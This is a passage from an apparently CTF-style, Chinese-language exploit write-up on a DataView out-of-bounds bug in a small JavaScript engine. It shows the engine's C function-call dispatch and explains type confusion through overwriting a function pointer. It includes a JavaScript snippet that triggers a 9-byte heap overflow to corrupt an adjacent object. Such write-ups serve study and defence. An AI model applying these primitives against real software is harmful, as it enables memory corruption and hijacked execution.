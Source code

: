 ```c
	if (obj->type == JS_CFUNCTION) {
		jsR_pushtrace(J, obj->u.f.function->name, obj->u.f.function->filename, obj->u.f.function->line);
		if (obj->u.f.function->lightweight)
			jsR_calllwfunction(J, n, obj->u.f.function, obj->u.f.scope);
		else
			jsR_callfunction(J, n, obj->u.f.function, obj->u.f.scope);
		--J->tracetop;
	} else if (obj->type == JS_CSCRIPT) {
		jsR_pushtrace(J, obj->u.f.function->name, obj->u.f.function->filename, obj->u.f.function->line);
		jsR_callscript(J, n, obj->u.f.function, obj->u.f.scope);
		--J->tracetop;
	} else if (obj->type == JS_CCFUNCTION) {
		jsR_pushtrace(J, obj->u.c.name, "native", 0);
		jsR_callcfunction(J, n, obj->u.c.length, obj->u.c.function);
		--J->tracetop;
	}

	BOT = savebot;
}
```

​		给这两个函数下断点。

![image-20220309170252301](C:\Users\wolf\AppData\Roaming\Typora\typora-user-images\image-20220309170252301.png)

![image-20220309170406090](C:\Users\wolf\AppData\Roaming\Typora\typora-user-images\image-20220309170406090.png)

​		如果通过类型混淆覆写掉这个指针，并且控制执行流程执行到`jsR_callFunction`，那可以形成一个很强大的利用原语。

### `OOB`泄露地址

​		除了`Dv_setUint8`存在数组越界，在`Dv_getUint32`，`Dv_getUint16`，`Dv_getUint8`中同样存在数组越界，可以实现`OOB`。（目前来说，泄露不出来什么

### 类型混淆

​		前面提到，`9`字节的数组越界写可以导致一个`overlap chunk`，实际上这个溢出也会导致一个类型混淆漏洞。

```javascript
b = DataView(0x68);
// obj: 0x5555555c8850
// obj->u.dataview.data: 0x5555555c88c0
a = DataView(0x48);
// obj: 0x5555555c8980
// obj->u.dataview.data: 0x5555555c89f0
b = DataView(0x48);
// obj: 0x5555555c8a90
// obj->u.dataview.data: 0x5555555c8b00
c = DataView(0x48);
// obj: 0x5555555c8b50
// obj->u.dataview.data: 0x5555555c8bc0

print(c);
b.setUint8(0x48+8,8);
print(c);
```
